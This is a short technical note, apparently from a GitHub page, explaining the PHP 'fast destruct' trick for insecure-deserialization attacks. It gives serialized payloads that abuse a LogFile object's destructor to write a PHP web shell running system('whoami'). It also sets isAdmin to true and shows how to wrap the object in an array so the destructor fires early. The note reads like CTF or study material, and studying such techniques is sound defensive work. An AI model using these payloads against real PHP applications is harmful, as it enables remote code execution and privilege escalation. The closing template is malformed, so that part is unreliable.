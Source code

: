 Fast destruct:

if there is a destruct method, but the code flow errors out, destruct never gets called.

we can use fast destruct method in this case.

we wrap the payload in an array with arr[0] = pay and arr[0] = random, when we  reassigin the same index, it means that we are gonna destroy a object which was present there before, thus destruct method will be called on that object automatically.

normal pay : O:4:"User":2:{s:8:"username";O:7:"LogFile":2:{s:8:"filename";s:12:"/tmp/test/ok";s:8:"username";s:26:"<?php system("whoami"); ?>";}s:7:"isAdmin";b:1;}

object with two value but it fails the destuct never gets called

pay warpped in array: a:2:{i:0;O:4:"User":2:{s:8:"username";O:7:"LogFile":2:{s:8:"filename";s:12:"/tmp/test/ok";s:8:"username";s:26:"<?php system("whoami"); ?>";}s:7:"isAdmin";b:1;}i:0;i:0;}

now the pay is placed in arr[0] = pay and then replaced wiht 0 again arr[0] = 0

this should be done manually, if you directly reassign it in the code, it will just add the replaced version in pay

thus manually add a:2{i:0;<object payload>i:0;i0;}
